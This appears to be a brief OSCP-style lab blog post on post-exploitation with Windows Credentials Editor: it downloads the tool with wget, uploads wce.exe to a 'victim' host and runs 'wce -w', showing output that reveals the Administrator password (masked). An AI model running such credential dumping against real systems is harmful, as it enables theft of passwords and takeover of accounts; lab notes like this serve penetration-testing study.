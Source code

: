 ```yaml
---
published: true
layout: post
title: WCE post exploitation
---
```




Download wce

    cd /opt/
    wget http://www.ampliasecurity.com/research/wce_v1_41beta_universal.zip
    unzip wce_v1_41beta_universal.zip -d wce

Upload wce.exe to victim

**Victim**:  Execute wce.  Administrator password displayed in the clear.  (real password masked just in case any potential oscp students are actually reading this)

    C:\Documents and Settings\Administrator\My Documents>wce -w
    wce -w
    WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security -     by Hernan Ochoa (hernan@ampliasecurity.com)
    Use -h for help.

    Administrator\RALPH:*<password>*
    RALPH$\THINC.LOCAL:
